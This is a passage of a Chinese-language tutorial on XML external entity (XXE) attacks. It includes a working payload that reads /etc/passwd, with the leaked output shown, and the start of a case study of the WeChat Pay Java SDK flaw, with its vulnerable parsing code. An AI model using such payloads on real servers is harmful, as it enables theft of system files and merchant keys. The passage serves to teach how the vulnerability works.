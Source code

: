    我们发出 带有 xml 的 POST 请求以后，述代码将交由服务器的XML处理器解析。代码被解释并返回：{“Request Successful”: “Added!”}

   但是如果我们传入一个恶意的代码

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <catalog>
      <core id="test101">
         <author>John, Doe</author>
         <title>I love XML</title>
         <category>Computers</category>
         <price>9.99</price>
         <date>2018-10-01</date>
         <description>&xxe;</description>
      </core>
   </catalog>
   ```

   如果没有做好“安全措施” 就会出现解析恶意代码的情况，就会有下面的返回

   ```json
   {"error": "no results for description root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/bin/sh
   bin:x:2:2:bin:/bin:/bin/sh
   sys:x:3:3:sys:/dev:/bin/sh
   sync:x:4:65534:sync:/bin:/bin/sync...
   ```



### **实例二：微信支付的 XXE**

   前一阵子非常火的微信支付的 XXE 漏洞当然不得不提，

   **漏洞描述：**

   微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息，一旦攻击者获得了敏感的数据 (md5-key and merchant-Id etc.)，他可能通过发送伪造的信息不用花钱就购买商家任意物品

   我下载了 java 版本的 sdk 进行分析，这个 sdk 提供了一个 WXPayUtil 工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中

   **如图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BE%AE%E4%BF%A1sdk.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BE%AE%E4%BF%A1sdk.png)

   问题就出现在我横线划出来的那部分，也就是简化为下面的代码：

   ```
   public static Map<String, String> xmlToMap(String strXML) throws Exception {
           try {
               Map<String, String> data = new HashMap<String, String>();
               DocumentBuilder documentBuilder = WXPayXmlUtil.newDocumentBuilder();
               InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
               org.w3c.dom.Document doc = documentBuilder.parse(stream);
               ...
   ```
